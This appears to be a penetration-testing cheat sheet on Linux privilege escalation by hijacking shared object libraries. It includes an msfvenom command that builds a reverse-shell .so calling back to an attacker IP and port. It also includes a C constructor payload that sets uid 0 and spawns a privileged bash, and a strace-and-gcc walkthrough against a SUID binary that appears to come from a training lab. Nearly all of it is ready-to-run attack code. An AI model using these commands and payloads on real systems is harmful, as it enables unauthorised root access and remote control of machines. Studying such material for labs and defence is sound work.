 # Shared Object Libraries
### Using msfvenom
##### Determine Libraries Loaded by Binary
```bash
ldd <Binary Name>
```
##### Determine if Binary was Compiled with RPATH
```bash
objdump -x <Binary Name> | grep RPATH
```
##### Determine if Binary was Compiled with RUNPATH
```bash
objdump -x <Binary Name> | grep RUNPATH
```
##### Generate Reverse Shell, Shared Object Library
```bash
msfvenom -a x64 -p linux/x64/shell_reverse_tcp LHOST=<Attacker IP> LPORT=<Attacker Port> -f elf-so -o <Library Name>
# Transfer to the path indicated in RPATH or RUNPATH.
```

### Generated C Code
##### SUID / SGID Executables - Shared Object Injection
```c
/* File libcalc.c */
#include <stdio.h>
#include <stdlib.h>

static void inject() __attribute__((constructor));

void inject() {
        setuid(0);
        system("/bin/bash -p");
}
```
[libcalc.c](Files/libcalc.c)
```bash
# First, execute the file and note that currently it displays a progress bar before exiting:
/usr/local/bin/suid-so
# Run strace on the file and search the output for open/access calls and for "no such file" errors:
strace /usr/local/bin/suid-so 2>&1 | grep -iE "open|access|no such file"
# strace shows suid-so is trying to load /home/user/.config/libcalc.so.
gcc -shared -fPIC -o /home/user/.config/libcalc.so /home/user/tools/suid/libcalc.c
/usr/local/bin/suid-so
```

### Shared Object Libraries References
[Static, Shared Dynamic and Loadable Linux Libraries](http://www.yolinux.com/TUTORIALS/LibraryArchives-StaticAndDynamic.html)
